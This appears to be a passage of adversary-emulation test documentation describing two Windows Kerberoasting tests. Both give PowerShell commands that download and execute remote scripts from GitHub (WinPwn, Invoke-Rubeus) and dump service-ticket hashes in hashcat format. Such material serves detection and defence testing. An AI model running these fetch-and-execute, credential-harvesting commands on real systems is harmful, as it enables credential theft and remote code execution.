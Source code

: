 ## Atomic Test #6 - WinPwn - Kerberoasting

Kerberoasting technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 78d10e20-c874-45f2-a9df-6fea0120ec27

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Kerberoasting -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #7 - WinPwn - PowerSharpPack - Kerberoasting Using Rubeus

PowerSharpPack - Kerberoasting Using Rubeus technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 29094950-2c96-4cbd-b5e4-f7c65079678f

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1')
Invoke-Rubeus -Command "kerberoast /format:hashcat /nowrap"
```

<br/>
